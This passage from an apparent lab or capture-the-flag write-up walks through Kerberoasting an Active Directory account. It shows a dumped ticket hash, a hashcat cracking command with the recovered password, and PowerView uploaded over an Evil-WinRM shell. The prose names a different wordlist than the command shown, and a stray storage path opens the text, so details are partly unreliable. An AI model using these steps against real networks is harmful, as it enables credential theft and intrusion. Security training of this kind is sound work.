     DE606B419223AB59A2C41B2715C6025503ADD7A0247FFE97A7BE39481268378A272C590E4681E9F6F3F5B29FD5CAF831
    C8E6931581A1054BCF3B9575A1648E1B35CC12AC752AD043A48CF12AAA909160CF1CA9F6C67BFA21D9EED5C0AEAC65D5
    127972FB63EF0D2D62F7506E8BE4845B141BA3F792EE457623302802E1995B1F73D9250EBA681337104EF0D588CEFBB6
    CCB619F37E0CDE0603CDED958CC497D56A3FBA12468A917D05A27B910DAAF704FD1B788CF6F46B7030861EF6619475BA
    70258C4B2A55D22DAFB56AA06D6023EDD0E757742960DEAB4A6FCBAC9BD53821B1CF68A1753364CC7C2108CCB8813F68
    F3FB4B4146EAB929E2BF0F51B6F6EAE7E79B93B19376E6F9EB2C8CE3DCAF1EC7355893C28E750DDB55DBD06ED985D736
    C94780582A245D0B5D0D6550FED5A0CCA455C27044B5D3507A01F37A749D00D130DBAF24D6868DF815DFD83BD259027D
    59490BC46BC35924BE22614280BC7D83915B823E3BCA95EBE436CB1E25F0D0E977CD496BC7739633702CC2389A2F1D95
    631BD86AEDE3149EA4519FF4EE1AAD6703425FAAA71A9863D3658759B3FB4771BD903A08D3C5904A2AFD32067576D9FC
    505C35262BB6449908D20446A4DBFD4259740CD1029473A69853ADB9BDCD7C7B5338CBA7B1512479ED5BB11EEA14CD28
    49B20D8E25079B5C1903F4E96A17B2BA4E31F81A6CE6974DF59412A27E3895055F89F39375AA522AB2F8CE3E8288C3CB
    86F582021CFF5515AC1A210682F5529613EE98866D87FEE5751FDDAF3976F5005C84F7A3957475701025DEEF85986E3C
    6EA0AA366AE8C0E7CF2C893D39E0044501FF8CF215621B996AA5A6C635D55726A89B85E324F876CDDED17C9E21A254BF
    36C1A39C02E00D2D6107B1A7A1F7866CBDDD73A322D3D28EB636BC28A860E6407AF9752B02ED2E3AA70471AC5EB4568B
    2C959AB638C8D731296C5F935215CF87A6EDF45E971E6B32C11BB1BB42850F5CA81DA80C0C95F7963B942634E1320D14
    6C35D24C8A8FDA030CC6FF7EB0FB407FAB84FFE5634E1D2250F9D9551392B5946FF6250E9A54545EBE454F2558529A09
    151CF8D7AEB2DF16EE44491E2CAB0D227D1AB0FFDCE2514E1F73E38B6C719F112A47D54190B67C98D8A66091AF0D6934
    57A7D14FC88C1B21C2CA26131CDF73D2F15E49E696CF28E48A17F78EF6B9F9403D8470FE41DCA4A3B222A9786C8CB4CE
    404EDFA0CCDEE0A6244FB8EB06791F82FFDC068E4E1D65FBC443EAD109A0DB8E396CBD5C894D66023C699561DEB69F66
    89D60E0177467DE72B73201505BC4091D6FE69CE49C016E400F110A6481DDCB396710E25DA5D9BA500EAF611ADB
    SamAccountName       : p00_adm
    DistinguishedName    : CN=p00_adm,CN=Users,DC=intranet,DC=poo
    ServicePrincipalName : cyber_audit/intranet.poo:443
    NULL
    NULL
    NULL
    NULL
    

Two accounts returned hashes.

#### Crack Hashes

I’ll drop those two hashes into a file and remove the newlines to there are
only two lines of text. I first tried with `rockyou.txt`, but didn’t crack
either. I started looking at other lists in
[SecLists](https://github.com/danielmiessler/SecLists), and when I tried
`Keyboard-Combinations.txt`, p00_adm broke:

    
    
    root@kali# hashcat -m 13100 hashes.kerbi /usr/share/wordlists/rockyou.txt --force
    ...[snip]...
    ZQ!5t4r
    

I’ll grab `PowerView.ps1` from
[PowerSploit](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
and upload it using the Evil-WinRM shell:

    
    
    *Evil-WinRM* PS C:\programdata> upload /opt/PowerSploit/Recon/PowerView.ps1
    Info: Uploading /opt/PowerSploit/Recon/PowerView.ps1 to C:\programdata\PowerView.ps1
    
                                                                  
    Data: 1027036 bytes of 1027036 bytes copied          
                                                                       